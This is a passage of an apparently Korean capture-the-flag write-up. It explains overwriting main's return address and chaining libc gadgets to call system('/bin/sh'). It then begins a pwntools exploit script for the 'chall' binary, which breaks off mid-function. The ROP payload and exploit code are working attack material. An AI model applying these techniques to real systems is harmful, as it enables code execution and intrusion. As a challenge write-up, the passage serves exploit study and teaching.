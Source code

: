 ### RET overwrite
마지막으로 RIP control을 위해서 `return address`를 덮기로 했다.

먼저 `[0, 2, 1]->*content`가 `main()`의 `return address`가 저장된 stack 주소를 가리키도록 설정했다.

이후 libc에 있는 가젯을 이용하여 인자를 설정하고 `system()` 함수를 호출했는데, `syscall` 당시의 stack alignment가 맞지 않아 `pop rdi; pop rbp` 가젯을 사용했다.
``` python
    # arbitrary write (ret of main)
    payload = b"B" * 0xe0
    payload += p64(0x20) + p64(ret)
    edit(s, 'u', [0, 2, 0], 'e', payload)

    pop_rdi_rbp = 0x2a745
    payload = p64(libc + pop_rdi_rbp)
    payload += p64(libc + next(lib.search(b"/bin/sh")))
    payload += b"C" * 8
    payload += p64(libc + lib.symbols['system'])
    edit(s, 'u', [0, 2, 1], 'e', payload)
```

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser

BINARY = "chall"
LIBRARY = "libc.so.6"
CONTAINER = "c471d11acd2a"
code_base = 0x555555554000
bp = {
    'ret_main' : 0x555555555418,
}

def edit(s, u_d, index, a_v='a', num=0):
    s.sendline(b"1")
    r = s.recvuntil(b">\n")
    if r.find(b"EMPTY") > 0:
        create(s, a_v, num)
    elif r.find(b"ARRAY") > 0:
        for c, i in enumerate(index):
            s.recvuntil(b"index: ")
            s.sendline(str(i).encode())
            s.recvuntil(b"> ")
            if c == len(index) - 1:
                if u_d == 'u':
                    s.sendline(b"1")
                if u_d == 'd':
                    s.sendline(b"2")
                    return s.recvuntil(b"\n> ")
            else:
                s.sendline(b"1")
        create(s, a_v, num)
    return s.recvuntil(b"\n> ")

def create(s, a_v, num):
    s.recvuntil(b"> ")
    if a_v == 'a':
        s.sendline(b"a")
        s.recvuntil(b"size: ")
        s.sendline(str(num).encode())
    elif a_v == 'v':
```